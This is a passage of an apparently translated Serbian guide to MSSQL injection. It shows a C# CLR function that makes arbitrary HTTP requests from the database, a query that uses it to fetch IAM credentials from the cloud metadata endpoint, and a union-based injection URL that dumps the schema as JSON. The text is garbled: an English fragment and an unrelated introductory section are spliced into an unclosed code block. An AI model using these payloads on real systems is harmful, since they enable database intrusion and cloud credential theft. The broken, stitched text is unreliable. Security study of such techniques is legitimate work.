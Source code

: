 ```csharp
using System.Data.SqlTypes;
using System.Net;

public partial class UserDefinedFunctions
{
[Microsoft.SqlServer.Server.SqlFunction]
public static SqlString http(SqlString url)
{
var wc = new WebClient();
var html = wc.DownloadString(url.Value);
return new SqlString(html);
}
}
```

Pre nego što izvršite `CREATE ASSEMBLY` SQL naredbu, preporučuje se da pokrenete sledeći SQL isječak kako biste dodali SHA512 heš skupa u listu pouzdanih skupova servera (vidljivo putem `select * from sys.trusted_assemblies;`):

```sql
EXEC sp_add_trusted_assembly 0x35acf108139cdb825538daee61f8b6b07c29d03678a4f6b0a5dae41a2198cf64cefdb1346c38b537480eba426e5f892e8c8c13397d4066d4325bf587d09d0937,N'HttpDb, version=0.0.0.0, culture=neutral, publickeytoken=null, processorarchitecture=msil';
```

Nakon uspešnog dodavanja skupa instrukcija i kreiranja funkcije, može se koristiti sledeći SQL kod za izvršavanje HTTP zahteva:

```sql
DECLARE @url varchar(max);
SET @url = 'http://169.254.169.254/latest/meta-data/iam/security-credentials/s3fullaccess/';
SELECT dbo.http(@url);
```

#### **Brzo iskorišćavanje: Dobijanje celokupnog sadržaja tabele u jednom upitu**

[Trik sa ovog linka](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/).

Konzistentan metod za izvlačenje celokupnog sadržaja tabele u jednom upitu uključuje korišćenje klauzule `FOR JSON`. Ovaj pristup je kraći od korišćenja klauzule `FOR XML`, koja zahteva određeni mod kao što je "raw". Klauzula `FOR JSON` je poželjnija zbog svoje kraće sintakse.

Evo kako da dobijete šemu, tabele i kolone iz trenutne baze podataka:

````sql
https://vuln.app/getItem?id=-1'+union+select+null,concat_ws(0x3a,table_schema,table_name,column_name),null+from+information_schema.columns+for+json+auto--
In situations where error-based vectors are used, it's crucial to provide an alias or a name. This is because the output of expressions, if not provided with either, cannot be formatted as JSON. Here's an example of how this is done:

```sql
## MSSQL Injection

### Osnovno

MSSQL Injection je tehnika napada koja omogućava napadaču da izvrši zlonamerni SQL kod na MSSQL bazi podataka. Ova tehnika se koristi za otkrivanje i iskorišćavanje ranjivosti u aplikacijama koje koriste MSSQL bazu podataka.

### Identifikacija MSSQL Injection ranjivosti

Da biste identifikovali MSSQL Injection ranjivosti, možete koristiti različite tehnike, kao što su:

- Unos specijalnih karaktera: Pokušajte da unesete specijalne karaktere kao što su jednostruki navodnici ('), dvostruki navodnici ("), kose crte (/) i drugi karakteri koji mogu izazvati greške u SQL upitima.
````